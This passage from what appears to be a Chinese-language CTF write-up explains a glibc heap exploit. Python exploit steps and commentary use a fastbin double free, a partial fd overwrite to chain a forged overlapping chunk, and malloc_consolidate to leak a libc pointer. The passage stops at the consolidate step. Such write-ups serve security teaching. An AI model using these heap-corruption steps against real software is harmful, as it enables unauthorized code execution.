 我们在chunk5伪造chunk，把chunk6给包含进去(overlap),然后把chunk5里面那个伪造的chunk想办法链到fastbin里面，触发malloc_consolidate,让那个假chunk链接到unsorted bin，然后申请合适大小的堆，使得libc中的指针传递到chunk6的fd处

1.  #chunk0~chunk5放入tcache bin，使得0x60的tcache bin有6个节点  
2.  **for** i **in** range(0,6):  
3.  delete(sh,i)  
4.  #chunk6放入0x40的tcache bin  
5.  delete(sh,6)  
6.  #chunk8 放入0x60的tcache bin  
7.  delete(sh,8)  
8.  #chunk7放入0x60的fastbin  
9.  delete(sh,7)  
10.  #从tcache取出头chunk  
11.  create(sh,0x50,'\n')  #9  
12.  #chunk7 放入tcache bin  
13.  delete(sh,7)  

我们先把0~5放入0x60的tcache bin，把chunk6放入0x40的tcache bin，把8放入0x60的tcache bin，接下来delete(7)时，由于0x60的tcache bin已经达到了7个，所以chunk7放在fastbin，由于**fastbin****不检查非top****的节点double free****，于是，我们从tcache****里取出一个，再次delete(7)****，那么chunk7****成为0x60****的tcache bin****的头结点**。chunk8存在的作用就是使得chunk7不是top，然后我们看看bins的布局

![](img/c675dc2e5d96efd3aa8aa6cfd8b71276.png)

1.  #由于chunk7同时存在于tcache bin和fastbin，又由于tcache bin各指针指向的是chunk的数据区，所以，我们这次create时，顺便低位覆盖，便可以  
2.  #改变chunk7的fd指针，我们要让chunk7的fd指针指向我们在chunk5末尾伪造的那个chunk，由于chunk6被overlap，然后，我们就可以想办法触发malloc_consolidate，生成  
3.  #unsorted bin，再通过申请，把libc中的关键指针传递到chunk6的fd域  
4.  create(sh,0x50,p16(((low_2_byte + 2) << 8) + 0x70)) #10也就是chunk7的空间  

经过这个create操作后，fastbin里的指针发生了变化

![](img/37518532a5e0c97f1c55cbea6b5cd8b4.png)

0x60的fastbin里链入了我们伪造的chunk

接下来，我们触发malloc_consolidate

1.  #整理fastbin，使得fastbin变成unsorted bin  
2.  mallocConsolidate(sh)  

